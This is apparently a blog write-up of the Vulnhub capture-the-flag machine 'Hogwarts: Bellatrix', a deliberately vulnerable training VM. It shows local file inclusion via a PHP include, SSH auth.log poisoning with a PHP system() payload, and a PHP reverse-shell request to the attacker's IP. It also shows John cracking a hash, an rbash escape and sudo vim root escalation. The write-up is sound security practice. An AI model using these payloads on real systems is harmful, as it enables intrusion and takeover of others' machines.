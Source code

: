 ```yaml
---
layout: post
title:  "Vulnhub - HOGWARTS: BELLATRIX"
date:   2020-12-09 22:00:00 +1100
category: hacking
---
```


## Introduction
*The evil Bellatrix Lestrange has escaped from the prison of Azkaban, but as ... Find out and tell the Minister of Magic  
Difficult: Medium  
This works better in VirtualBox  
Hints --> Brute force is not necessary, unless it is required. ncat is the key ;)*

This is [HOGWARTS: BELLATRIX](https://www.vulnhub.com/entry/hogwarts-bellatrix,609/) from Vulnhub.

## Ports
SSH and HTTP only.

## HTTP
On the front page of the website we get a long string of text repeating the phrase *ikilledsiriusblack* 44 times (I think) and finally ending with **.php**. In the page source we get the following hints:

>Nah ... this time there are no clues in the source code ...   
o yeah, maybe I've already told you a directory .php? :)
		
And:

{% raw %}
/*  
   $file = $_GET['file'];  
   if(isset($file))  
   {  
       include("$file");  
   }  
*/  
{% endraw %}

In case it's not obvious: the PHP code provides an LFI vulnerability, and the hint about ncat in the description suggests log poisoning. Let's dig in.


## LFI
The hints made it relatively obvious, but the LFI was here:

``
http://bellatrix/ikilledsiriusblack.php?file=../../../../../../../../../../../etc/apache2/apache2.conf
``

With /etc/passwd I could see we had two users, *lestrange* and *bellatrix*. I haven't read (or watched) Harry Potter so I don't know if these two are related or something. My daughter is reading it now, maybe she can tell me. I could read the apache configuration files, but even though I knew where the log files were I couldn't read them. So how to do the log poisoning?

## SSH/Auth log
You can do [auth.log](https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/) poisoning with an attempted SSH login:

``
root@kali:/opt/vulnhub/bellatrix# ssh "<?php system($_GET['cmd']); ?>"@192.168.1.158
``

And I *could* read **/var/log/auth.log**; so this was the way in. When I read auth.log with the LFI I couldn't see my PHP code above where I thought it should be, but I sent a few commands with Burp Suite repeater and it was definitely responding, eg:

``
GET /ikilledsiriusblack.php?file=../../../../../../../../../../../var/log/auth.log&cmd=pwd HTTP/1.1
``

This was my shell command:

``
GET /ikilledsiriusblack.php?file=../../../../../../../../../../../var/log/auth.log&cmd=php+-r+'$sock%3dfsockopen("192.168.1.150",1234)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b' HTTP/1.1
``

And I was in.

## On the box
In */var/www/html* we find *'c2VjcmV0cw=='*. Uh ... what?

{% highlight shell %}
www-data@bellatrix:/var/www/html$ echo 'c2VjcmV0cw==' | base64 -d
echo 'c2VjcmV0cw==' | base64 -d
secrets
{% endhighlight %}

Oh, okay then. In there we have:

{% highlight shell %}
4.0K drwxr-xr-x 2 root root 4.0K Nov 28 11:41 .
4.0K drwxr-xr-x 3 root root 4.0K Nov 28 09:23 ..
4.0K -rw-r--r-- 1 root root 1.3K Nov 28 08:42 .secret.dic
4.0K -rw-r--r-- 1 root root  117 Nov 28 11:41 Swordofgryffindor
{% endhighlight %}

That's a list of possible password (.secret.dic) and a hash (Swordofgryffindor):

>lestrange:$6$1eIjsdebFF9/rsXH$NajEfDYUP7p/sqHdyOIFwNnltiRPwIU0L14a8zyQIdRUlAomDNrnRjTPN5Y/WirDnwMn698kIA5CV8NLdyGiY0

I'll give them both to John:

{% highlight shell %}
root@kali:/opt/vulnhub/bellatrix# john hash -w=./possible_passwords 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ihateharrypotter (lestrange)
{% endhighlight %}

Now we can SSH in as *lestrange*.

## Lestrange
Lestrange has *rbash* as his login shell, which makes life difficult. We can [escape](https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/) it though:

``
root@kali:/opt/vulnhub/bellatrix# ssh lestrange@bellatrix -t "bash --noprofile"
``

Once we've done that, we find out *lestrange* can use *vim* as anyone, and that's our privesc per [GTFOBins](https://gtfobins.github.io/gtfobins/vim/#sudo):

{% highlight shell %}
lestrange@bellatrix:/dev/shm$ sudo -l
Coincidiendo entradas por defecto para lestrange en bellatrix:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario lestrange puede ejecutar los siguientes comandos en bellatrix:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
lestrange@bellatrix:/dev/shm$ sudo -u root /usr/bin/vim -c ':!/bin/sh'

# whoami
root
root{ead5a85a11ba466011fced308d460a76}
# id;hostname
uid=0(root) gid=0(root) grupos=0(root)
bellatrix
{% endhighlight %}

